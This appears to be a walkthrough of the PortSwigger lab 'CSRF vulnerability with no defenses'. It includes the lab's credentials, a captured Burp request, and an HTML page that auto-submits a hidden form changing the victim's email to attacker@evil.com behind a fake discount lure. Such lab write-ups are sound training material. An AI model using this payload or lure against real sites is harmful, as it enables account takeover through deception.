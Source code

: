 ## CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.
### Objective
	1. Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
	2. Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

### Credentials
	1.Username: wiener
	2.Password: peter

### Access the Lab:

 ```Copy
https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#
```

## Step by step walkthrough of Lab

	1.We get a website with a page like this:
	
![[CSRF-01.png]]

	2.As we know the vulnerability lies in the update email function lets go directly to My account.

![[CSRF-02.png]]

	3.We have a login screen here lets use the default creds given to us.

![[CSRF-03.png]]
	4.Here whatever email we provide it will get changed if the session cookie is verified,lets check the burp request after requesting for an email change.


```Burp
POST /my-account/change-email HTTP/1.1
Host: 0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Cookie: session=O5pjwIZh3kRuMmDnlREn568LPORTJgWw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

email=0mni@deuss.space
```

	5.Here we can see that the website is sending email as a POST request in body for changing the Email of that particular authenticated user.
	
![[CSRF-04.png]]
	6.Now Lets go to the exploit server.
![[CSRF-05.png]]
	7. Here everything is already set what we need to do is set the body parameter in such a way that when the user clicks on the crafted email it gets opened in their browser and the email changes to the attackers email.
```HTML
<html>
  <body>
    <h1>Limited Time Offer!</h1>
    <p>Click below to claim your exclusive discount!</p>
    
    <form id="csrfForm" action="https://{CHANGE-THIS-ACCORDING-TO-YOUR-URL}.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com"/>
    </form>
    
    <script>
      // Auto-submit the form immediately
      document.getElementById('csrfForm').submit();
      
      // Optional: Show a fake loading screen to make it seem more legitimate
      setTimeout(function() {
        document.body.innerHTML = '<h1>Processing your request...</h1><p>Please wait while we apply your discount.</p>';
      }, 100);
    </script>
  </body>
</html>
```
	8.The above code snippet is what i have engineered to do the following:
		1.Excite the user by social engineering(Here i have used discount coupon)
		2.Put the URL given by Lab in Action(IMPORTANT).
		2.A Form submission using POST request to the site.
		3.Make the Form submission hidden using type='hidden'
		4.provide name=email for the POST element(Check burp req).
		5.value=attacker@evil.com(The email we want to use to change for victim).
		6.Auto submit form using javascript.
		7.Showing a "Processing your request" fake discount processing.

![[CSRF-06.png]]
	9.Now lets copy the payload after `<body> to </body>` and click on View exploit to check if it is even working or not.
![[CSRF-07.png]]
	10.IT WORKED! The email has been changed by the attacker.
![[CSRF-06.png]]
	11.Now do the same again in exploit but this time change the email to something else and click on Deliver exploit to victim.
	
